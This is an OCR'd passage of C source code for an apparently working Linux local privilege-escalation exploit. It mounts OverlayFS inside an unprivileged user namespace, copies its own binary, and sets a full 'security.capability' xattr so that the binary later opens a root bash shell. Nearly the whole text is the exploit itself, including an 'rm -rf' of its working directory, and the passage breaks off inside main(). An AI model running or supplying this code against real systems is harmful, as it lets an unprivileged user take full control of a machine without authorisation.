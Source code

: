                 static int exploit()
                {
                char buf[4096];

                sprintf(buf, "rm -rf '%s/'", DIR_BASE);
                system(buf);

                xmkdir(DIR_BASE, 0777);
                xmkdir(DIR_WORK,  0777);
                xmkdir(DIR_LOWER, 0777);
                xmkdir(DIR_UPPER, 0777);
                xmkdir(DIR_MERGE, 0777);

                uid_t uid = getuid();
                gid_t gid = getgid();

                if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
                        err(1, "unshare");

                xwritefile("/proc/self/setgroups", "deny");

                sprintf(buf, "0 %d 1", uid);
                xwritefile("/proc/self/uid_map", buf);

                sprintf(buf, "0 %d 1", gid);
                xwritefile("/proc/self/gid_map", buf);

                sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
                if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
                        err(1, "mount %s", DIR_MERGE);

                // all+ep
                char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

                xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
                if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
                        err(1, "setxattr %s", BIN_MERGE);

                return 0;
                }

                int main(int argc, char *argv[])
                {
                if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
                        setuid(0);
                        setgid(0);
                        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
                        err(1, "execl /bin/bash");
                }

                pid_t child = fork();
                if (child == -1)
                        err(1, "fork");

                if (child == 0) {
                        _exit(exploit());
                } else {
                        waitpid(child, NULL, 0);
                }
